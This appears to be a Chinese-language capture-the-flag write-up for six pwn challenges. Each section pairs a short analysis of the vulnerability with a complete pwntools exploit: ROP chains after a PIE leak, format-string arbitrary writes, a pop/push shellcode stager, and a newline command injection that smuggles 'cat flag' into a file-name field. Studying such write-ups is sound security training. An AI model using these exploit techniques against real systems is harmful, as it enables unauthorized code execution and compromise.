# ezpie
检查保护发现是一个64为程序并开启了PIE保护


在fun函数中发现溢出


我们可以利用这个溢出构建我们的ROP链
但是因为开启了pie保护，我们还需要得到text段的地址
gdb调试一下我们发现在rbp-8的地址发现一个text段的地址

那么我们就可以通过控制输入的字符数量将其打印出来
``` python
from pwn import*
context(arch='amd64', os='linux', log_level='debug')
p = process('./ezpie')
#p = remote('43.249.195.138', 20258)

# 泄露.text段地址
p.recvuntil('input your name-> \n')
payload = b'a' * 40
p.send(payload)
# 接收地址
p.recvuntil(b'a' * 40)
fun_addr=u64(p.recv()[:6].ljust(8, b'\x00'))
addr_base = fun_addr - 0x120E

# ROP链
binsh           = addr_base + 0x2008
syscall         = addr_base + 0x12c5
pop_rdi_ret     = addr_base + 0x1333
pop_rax_ret     = addr_base + 0x12c8
pop_rsi_r15_ret = addr_base + 0x1331

payload  = b'a' * (0x50 + 8)
payload += p64(pop_rax_ret) + p64(59) + p64(pop_rdi_ret) + p64(binsh) + p64(pop_rsi_r15_ret) + p64(0) + p64(0) + p64(syscall)
p.send(payload)
p.interactive()
```

# stack
检查保护发现是一个64位程序并且开启了NX保护

程序只是让我们输入要输入字符串的长度然后输入我们想要的字符串

那么就直接溢出然后填充返回地址,注意填充的时候要确保i的值不变
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
#p = process('./stack')
p = remote('43.249.195.138', 21062)

p.recvuntil('size: ')
p.sendline('200')
p.recvuntil('> ')
payload = b'a' * (32 - 4) + p32(28)
payload += 8 * b'a' + p64(0x4012ee)

p.sendline(payload)
p.interactive()
```

# fmt
检查程序保护, 64位保护全开

程序只需要使v1 = 18 && v8 = 52即可
那么我们就可以通过格式化字符串设置v1和v2的值即可

我们发现0x7fffffffde20指向了v1的地址, 0x7fffffffde28指向了v2的地址

通过fmtar可以看见地址相对于格式化字符串第几个参数

我们的exp:
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
#p = process('./fmt')
p = remote('43.249.195.138', 21181)

p.recvuntil('> ')
# 目标地址:("\%8$p") ("\%9$p")
payload  = b'%18c%8$n'
payload += b'%34c%9$n'

p.send(payload)
p.interactive()
```

# fries
检查程序保护, 64位保护全开

发现格式化字符串漏洞, 并且可以利用八次

我们可以这样利用:
*   第一次泄露glibc地址, 并计算出我们要所使用的gadget片段
*   第二次泄露栈地址
*   第三次rbp+8设置为pop_rdi
*   第四次rbp+16设置为binsh地址
*   第五次rbp+24设置为pop_rsi地址
*   第六次rbp+32设置为0
*   第七次rbp+40设置为execve
*   第八次多给了一次机会，根本不需要
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p       = process('./fries')
#p       = remote('43.249.195.138', 22080)
#libc    = ELF('./libc.so.6')
libc    = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
elf     = ELF('./fries')

p.recvuntil('Emmmmm... Could you give me some fries\n')
p.send('fries\x00')
# 泄露glibc的地址
p.recvuntil('Go get some fries on the pier\n')
payload = b'%59$p'
p.send(payload)
libc_start_main = int(p.recvuntil('Go get some fries on the pier\n')[:14], 16) - 128
# 计算出gadget地址
libc_base   = libc_start_main - libc.symbols['__libc_start_main']
execve      = libc_base + libc.symbols['execve']
binsh       = libc_base + next(libc.search(b'/bin/sh\x00'))
pop_rdi     = libc_base + 0x2a3e5
pop_rsi     = libc_base + 0x2be51

# 泄露栈地址
payload = b'%24$p'
p.send(payload)
rbp     = int(p.recvuntil('Go get some fries on the pier\n')[:14], 16) - 0x50
ret1    = rbp   + 8
ret2    = ret1  + 8
ret3    = ret2  + 8
ret4    = ret3  + 8
ret5    = ret4  + 8

# str的起始地址 : ("%8$p")
# 写入地址gadget是写入的值, target是写入的地址
def run(gadget, target):
    payload = b''
    write_size = 0
    for i in range(3):
        vulen  = (gadget>>(i*16)) & 0xffff
        # 如果已经输入的字符大于了将要输入的值, 那么我们就需要输入对应的负数
        if(vulen > write_size&0xffff):
            payload += b'%' + bytes(str(vulen - (write_size&0xffff)).encode()) + b'c%' + bytes(str(13 + i).encode()) + b'$hn'
            write_size+=vulen - (write_size&0xffff)
        else:
            payload += b'%' + bytes(str(0x10000 - (write_size&0xffff) + vulen).encode()) + b'c%' + bytes(str(13 + i).encode()) + b'$hn'
            write_size+=0x10000 - (write_size&0xffff) + vulen
    payload  = payload.ljust(40, b'a')
    payload += p64(target)
    payload += p64(target + 2)
    payload += p64(target + 4)
    p.send(payload)
    p.recvuntil('Go get some fries on the pier\n')

run(pop_rdi, ret1)
run(binsh, ret2)
run(pop_rsi, ret3)
run(0, ret4)
run(execve, ret5)

p.send(b'aaaa\x00')
#gdb.attach(p, 'b read\nb printf\n')
p.interactive()
```

# abstract_shellcode
检是程序保护, 64位没有开启NX保护


在fun函数使用F5时发现错误



这里直接跳转到栈上指向, 我们删除这一段代码查看伪代码
读取了17个字符放在s中, 并对前16个字符进行检查, ASCII在[79, 95]之间然后跳转到s执行

那么17个字符我们肯定无法直接使用shellcode
那么我们的思路:
*   第一步通过push和pop设置寄存器的值然后执行read读取shellcode到栈上
*   执行栈上读取的shellcode
exp:
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p = process('./abstractshellcode')
#p = remote('43.249.195.138', 21109)

shellcodemy = asm('''
push rdi    # 设置rax为0
pop rax

pop rsi     # 设置rsi指向syscall
pop rsi
pop rsi

push rax    # 设置rdi为0
pop rdi

push rsi    # 设置rsp指向shellcode
pop rsp

pop rdx     # 设置rdx为/50f作为read读取的长度
push rdx

push rsi    # 设置rsp指向shellcode
push rsi

pop rsi     # 填充shellcode使得ret为最后的字符
push rax
pop rax

ret         # 跳转到shellcode
''')

p.recvuntil('input:(ye / no)\n')
p.send(asm('syscall'))
p.recvuntil('---input your pop code---\n')

#gdb.attach(p, 'b *$rebase(0x14A6)\nc')
p.send(shellcodemy)
p.send(b'aa' + asm(shellcraft.sh()))

p.interactive()
```

# touch_file1
检查保护, 64位保护全开

这里对我们输入的命令进行了检查

直接发送\ncat flag即可
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
#p = process('./touch_file1')
p = remote('43.249.195.138', 20236)

p.recvuntil('> ')
p.send(b'1')

p.recvuntil('file_name: ')
cmd = b'\ncat flag\0'
p.send(cmd)
p.interactive()
```

